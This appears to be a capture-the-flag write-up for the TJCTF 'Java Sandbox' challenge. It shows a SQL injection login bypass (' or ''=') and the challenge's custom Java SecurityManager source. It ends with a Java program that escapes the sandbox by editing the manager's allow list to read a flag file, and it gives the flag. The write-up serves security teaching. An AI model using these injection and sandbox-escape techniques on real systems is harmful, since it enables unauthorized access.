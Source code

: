 # Java Sandbox (100 pts)

---

## Problem
Everyone's heard of python jail escapes, but what about Java? [Java Sandbox](http://javasandbox.p.tjctf.org/)

---

## Solution
At first, we are presented with a login portal. We try a random username and password, and a message in the corner appears to try MySQL injection.

We then login successfully with the username `' or ''='` and password `' or ''='`

At this point we reach a page where we can type, then submit a java program to compile and run it. In the security page, we are told that the flag resides at `/var/www/flag.txt`. We created a small java program to attempt to read this flag:

```
import java.io.BufferedReader;
import java.io.FileReader;

public class Main {
    public static void main(String[] args) throws Exception {
        BufferedReader read = new BufferedReader(new FileReader("/var/www/flag.txt"));
        System.out.println(read.readLine());
    }
}
```

However, when we submit this program, we get an error message saying that access was denied by the security manager, and we don't have permissions to read it.

We then see that source for the custom security manager and the program wrapper is available on the security page as well:

```
import java.lang.reflect.Method;
import java.security.Permission;
import java.util.ArrayList;
import java.util.Arrays;
class CustomSecurityManager extends SecurityManager {
    ArrayList<String> allow;
    String insecureClassName;
    String[] allowedLibraries = new String[] {"com.google","twitter4j","com.securefiledownloader"};
    public CustomSecurityManager(String className, String[] allowed) {
        insecureClassName = className;
        allow = new ArrayList<String>(Arrays.asList(allowed));
        // allow standard jre libraries
        allow.add(System.getProperty("java.home"));
    }

    public boolean checkAllow(String str) {
        for (String i : allow) {
            if (str.startsWith(i))
                return true;
        }
        return false;
    }

    public boolean isLibrary() {
        StackTraceElement[] stack = Thread.currentThread().getStackTrace();
        for (StackTraceElement s : stack) {
            // reached end
            if ((""+s).startsWith("Wrapper") || (""+s).startsWith(insecureClassName)) {
                return false;
            }
            // pass cases that obviously aren't libraries
            if ((""+s).startsWith("CustomSecurityManager") || (""+s).startsWith("java.") || (""+s).startsWith("sun.")) {
                continue;
            }
            for (String x : allowedLibraries) {
                if ((""+s).startsWith(x)) {
                    return true;
                }
            }
        }
        return false;
    }

    @Override
    public void checkPermission(Permission perm) {
        if (perm instanceof java.io.FilePermission) {
            if (!perm.getActions().equals("read")) {
                throw new SecurityException(""+perm);
            }
            // allow trusted libraries to access files
            if (!isLibrary()) {
                if (!checkAllow(perm.getName())) {
                    throw new SecurityException("File access denied! "+perm);
                }
            }
        }
        else if (perm instanceof java.net.SocketPermission || perm instanceof java.net.NetPermission || perm instanceof javax.net.ssl.SSLPermission) {
            // allow trusted libraries to access the internet
            if (!isLibrary()) {
                // need this to create URLs
                if (!perm.getName().equals("specifyStreamHandler")) {
                    throw new SecurityException("Socket access denied! "+perm);
                }
            }
        }
        else if (perm instanceof java.lang.RuntimePermission) {
            if (perm.getName().equals("setSecurityManager") || perm.getName().equals("createSecurityManager")) {
                throw new SecurityException("Nope! "+perm);
            }
            if (perm.getName().equals("createClassLoader") || perm.getName().equals("preferences")) {
                throw new SecurityException("Nah... "+perm);
            }
            if (perm.getName().equals("queuePrintJob")) {
                throw new SecurityException("Why... "+perm);
            }
        }
        else if (perm instanceof java.security.SecurityPermission) {
            throw new SecurityException("Permission denied! "+perm);
        }
        else if (perm instanceof java.sql.SQLPermission || perm instanceof java.util.logging.LoggingPermission || perm instanceof java.awt.AWTPermission) {
            // just in case...
            throw new SecurityException("Permission denied! "+perm);
        }
        // i think thats everything
    }
}

import java.lang.reflect.Method;
public class Wrapper {
    public static void main(String[] args) {
        args[0] = "Main";
        // args[0] is the name of the class to run
        // args[1] is a colon separated list of directories your program can access
        System.setSecurityManager(new CustomSecurityManager(args[0], args[1].split(":")));
        try {
            Class<?> unsafeClass = ClassLoader.getSystemClassLoader().loadClass(args[0]);
            Method m = unsafeClass.getMethod("main", String[].class);
            m.invoke(null, new Object[] {new String[] {}});
        } catch (Exception e) {
            e.printStackTrace();
        }
    }
}
```

Upon analysing this, we see that access to the file is restricted because its path is not in the `allow` list.

From the wrapper class, we see that CustomSecurityManager is in the same namespace as where "Main" (the uploaded class) is located. This means we can reference the CustomSecurityManager directly.

We then run the following code and successfully read the flag:
```
import java.io.BufferedReader;
import java.io.FileReader;
import java.util.List;
public class Main {
    public static void main(String[] args) throws Exception {
        CustomSecurityManager csm = (CustomSecurityManager)System.getSecurityManager(); //get instance of the CustomSecurityManager class
        System.out.println(csm.allow);
        List<String> allow = csm.allow; //add to the allow list
        allow.add("/var/www/flag.txt");
        System.out.println(allow);
        BufferedReader read = new BufferedReader(new FileReader("/var/www/flag.txt"));
        System.out.println(read.readLine());
    }
}
```

## Flag
`tjctf{j4V4_R3FL3C710n_15_7R1CkY}`
